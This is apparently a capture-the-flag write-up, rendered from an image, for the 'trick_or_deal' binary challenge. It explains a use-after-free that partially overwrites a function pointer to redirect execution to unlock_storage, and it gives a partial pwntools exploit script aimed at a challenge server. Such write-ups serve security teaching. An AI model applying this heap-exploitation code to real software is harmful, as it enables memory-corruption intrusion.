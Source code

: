 % objdump -M intel -d trick_or_deal| grep 'unlock_storage>:'
0000000000000eff <unlock_storage>:

          00                        0x48  function_pointer
          +----------------------------+----+------------+
storage = |                            |e60b|base_addr   |
          +----------------------------+----+------------+
```

if we overwrite the 2 bytes at 0x48 and change them by ```ff0e``` - we should have a valid pointer to ```unlock_storage```


the plan is a simple use after free:
- offer = malloc(0x50)
- free(storage)
- offer = malloc(0x50)        // storage chunk address is reused, so offer = storage
- overwrite the 2 least significant bytes of the function pointer to make it point to ```unlock_storage```
- profit

not super stable exploit for some reason :p

```python
from pwn import *
import re
import sys
import time


local_path = "trick_or_deal"

pty = process.PTY
elf = context.binary = ELF(local_path)


def init(rem=False):
    if rem:
        io = remote("188.166.172.138", 31900)
    else:
        io = process(elf.path, stdin=pty, stdout=pty)


    io.recvuntil(b'do? ')
    return io

def make_offer(size, data):
    io.clean()
    io.sendline(b'3')       # make offer
    io.recvuntil(b'offer(y/n): ')
    io.sendline(b'y')
    io.recv(1024)
    #io.recvuntil(b'do ? ')
    io.sendline(bytes(str(size), 'ascii'))      # chunk size
    io.recv(1024)
    #io.recvuntil(b'me ? ')
    io.send(data)
    io.recv(1024)
    #io.recvuntil(b'do ? ')

def steal():
    io.clean()
    io.sendline(b'4')       # free
    io.recvuntil(b'do? ')
```